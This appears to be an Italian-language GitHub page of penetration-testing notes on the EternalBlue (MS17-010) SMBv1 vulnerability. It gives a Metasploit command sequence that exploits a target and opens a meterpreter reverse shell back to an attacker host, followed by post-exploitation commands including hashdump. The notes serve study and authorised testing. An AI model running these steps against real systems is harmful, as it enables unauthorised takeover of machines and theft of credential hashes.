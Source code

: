 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Exploit EternalBlue (MS17-010)

**EternalBlue** è una vulnerabilità critica identificata come **MS17-010** che colpisce il protocollo **SMBv1** su sistemi Windows non aggiornati come:
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows 8.1
- Windows Server2012
- Windows 10
- Windows Server 2016

Questa vulnerabilità consente l'esecuzione di codice da remoto (**RCE**) senza autenticazione, sfruttando un bug nei pacchetti SMB. <br>
È diventata celebre in quanto utilizzata dal worm **WannaCry**. <br>
EternalBlue è sfruttabile solo se il servizio SMBv1 è attivo e non patchato.

Metasploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
set SMBPIPE BROWSER
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```

Una volta ottenuta la shell:
- `getuid`, `getprivs`, `hashdump`
